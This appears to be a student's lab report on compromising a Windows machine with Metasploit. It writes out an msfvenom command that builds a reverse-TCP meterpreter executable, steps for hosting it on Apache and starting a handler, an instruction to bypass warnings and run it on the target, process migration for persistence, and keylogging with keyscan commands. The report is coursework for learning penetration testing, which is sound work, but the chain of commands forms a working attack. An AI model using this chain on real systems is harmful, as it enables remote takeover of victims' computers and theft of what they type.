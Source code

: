 # Compromising-windows-using-Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

```
Register Number:212222040121
Name:Praveen V
```

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-07 110001](https://github.com/user-attachments/assets/8cde1e5a-5319-4f72-81c4-9f09f8204798)




Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-07 111202](https://github.com/user-attachments/assets/a5850360-7890-4b7d-b3bf-f84f7eec2f96)





copy the fun.exe into the apache /var/www/html folder
![Screenshot 2025-04-07 115010](https://github.com/user-attachments/assets/f556dedd-f7d9-47bc-b786-0d2017262af3)



Start apache server
sudo systemctl apache2 start

![Screenshot 2025-04-07 115019](https://github.com/user-attachments/assets/f8a3a5db-f3a1-4089-865b-bf898995674f)



Check the status of apache2
![Screenshot 2025-04-07 115108](https://github.com/user-attachments/assets/e5f1d4d7-126a-4b09-b6ef-eb06a680981f)




Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2025-04-07 115214](https://github.com/user-attachments/assets/ea384ca5-6c96-405e-9b45-b23f4e9fab41)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2025-04-07 115416](https://github.com/user-attachments/assets/c77d859f-ec36-4ce5-a9d5-e54633f390c7)



Bypass any warning boxes, double-click the file, and allow it to run.


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![Screenshot 2025-04-07 115242](https://github.com/user-attachments/assets/13ef9689-8a76-4d7c-bb44-0e4ee9807099)




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![{F7D2ED4C-13F1-4F4C-B951-BEB85E88527E}](https://github.com/user-attachments/assets/337f3a58-b9d7-413a-9619-eaa764b32dd9)



keyscan_dump	Shows the keystrokes captured so far
![{970C702A-B8E4-4F86-8022-F68564FCAD87}](https://github.com/user-attachments/assets/42a6d320-d01e-4694-addb-c39220915f08)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully

